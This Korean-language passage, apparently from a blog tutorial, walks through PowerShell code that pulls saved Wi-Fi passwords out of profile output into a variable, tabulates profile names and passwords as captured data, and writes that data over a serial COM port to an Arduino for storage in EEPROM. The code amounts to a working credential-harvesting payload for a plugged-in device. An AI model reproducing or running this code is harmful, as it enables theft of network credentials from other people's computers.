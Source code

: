 여기서 Key Content(비밀번호)를 추출하여 $pass 변수에 할당합니다.

```js
Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_}
```



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

## 섹션 D

마지막으로, 프로필 이름과 비밀번호 속성을 포함한 PS 객체를 생성하고 테이블 형식으로 표시하여 $dataCaptured에 작성합니다.

```js
%{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass } | Format-Table –AutoSize | Out-String -OutVariable dataCaptured
```

# EEPROM에 데이터 저장하는 명령



<ins class="adsbygoogle"
     style="display:block"
     data-ad-client="ca-pub-4877378276818686"
     data-ad-slot="1107185301"
     data-ad-format="auto"
     data-full-width-responsive="true"></ins>

<script>
     (adsbygoogle = window.adsbygoogle || []).push({});
</script>

아두이노에 데이터를 기록하려면 컴퓨터와 아두이노는 직렬 통신을 사용하여 상호 작용해야 합니다. 직렬 통신은 통신 채널 또는 USB를 통해 한 번에 한 비트씩 데이터를 전송하는 프로세스입니다. 각 포트는 COM1, COM2, COM3, COM4 등으로 식별됩니다. 각 COM은 입출력(I/O) 및 인터럽트 요청(IRQ) 주소를 나타냅니다. I/O 주소는 마우스나 키보드와 같은 주변 장치와 데이터를 전송하고 수신합니다. 직렬 통신의 속도 또는 '보드 속도'는 초당 비트로 측정됩니다. 이 데모에서는 9600비트 초당을 사용했습니다.

```bash
# 사용 가능한 COM 포트 검색
$comPort = ((Get-WmiObject -query "SELECT * FROM Win32_PnPEntity" | Where {$_.Name -Match "COM\d+"}).name).Split("COM");
$comPort = [int]$comPort[$comPort.length - 1].replace(")", "");

# COM 포트에 연결하여 데이터 기록 시작
$serialObject = new-Object System.IO.Ports.SerialPort COM$comPort , 9600, None, 8, one;
$serialObject.Open();
$serialObject.Write("$dataCaptured");
```
